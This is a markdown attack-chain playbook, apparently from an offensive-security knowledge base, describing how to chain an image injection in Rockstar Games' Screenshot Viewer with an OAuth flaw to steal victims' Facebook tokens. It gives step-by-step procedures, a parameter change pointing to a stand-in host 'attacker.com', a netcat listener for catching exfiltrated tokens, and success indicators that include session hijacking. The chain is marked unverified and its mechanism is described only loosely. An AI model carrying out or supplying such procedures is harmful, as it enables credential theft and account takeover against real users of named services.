

# Chained Image Injection and OAuth Disclosure for Facebook Token Theft

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in the Rockstar Games platform to steal Facebook OAuth tokens.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools (e.g., Chrome DevTools)
- Proxy tool like Burp Suite for request manipulation

### Target Environment

- Web platform with Facebook OAuth integration
- Access to Screenshot Viewer utility
- Victim session with active Facebook login

### Initial Access Requirements

- Valid user account on the target platform (Rockstar Games)
- Network access to the web application
- No prior privileged access needed, but authenticated session required

## Detailed Attack Procedures

### Step 1: Exploit Image Injection
procedure: [[procedures/Exploit-Image-Injection-in-Screenshot-Viewer]]

**Objective**: Inject malicious image sources into the Screenshot Viewer to prepare for data exfiltration.

**Instructions**: Identify the Screenshot Viewer feature and test for image injection by submitting a controlled malicious image URL. Use browser developer tools to inspect the image loading mechanism and modify the src attribute to point to an attacker-controlled endpoint.

For example, intercept the request with a proxy and alter the image source:

```bash
# Using Burp Suite or similar: Intercept POST/GET to screenshot viewer endpoint
# Modify 'image_url' parameter to 'http://attacker.com/malicious-image'
```

Then, load the viewer to trigger the injection.

**Expected Output**: The viewer attempts to load the injected image, potentially leaking request details to the attacker's server.

**Success Indicators**:
- Malicious image source is accepted without validation
- Attacker server logs show requests from the victim's browser

### Step 2: Extract OAuth Tokens
procedure: [[procedures/Extract-OAuth-Tokens-via-Chaining]]

**Objective**: Chain the image injection with an OAuth flaw to capture and exfiltrate Facebook session tokens.

**Instructions**: With the image injection active, navigate to the Facebook OAuth integration page in the same session. The chained vulnerability allows the injected image to capture OAuth tokens during the authentication flow. Monitor the attacker's endpoint for leaked tokens.

For verification, use a simple server setup to log incoming requests:

```bash
# Example using netcat listener on attacker server
nc -lvp 80
```

Trigger the OAuth flow and observe the exfiltration.

**Expected Output**: Attacker logs contain OAuth tokens from the victim's Facebook session.

**Success Indicators**:
- OAuth tokens appear in exfiltrated data
- Tokens can be validated by attempting session hijacking

## Attack Chain Summary

### Key Achievements

1. Successful image injection bypassing input validation in Screenshot Viewer
2. Chained exploitation leading to OAuth token disclosure
3. Potential for account takeover using stolen tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Credentials In Files]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
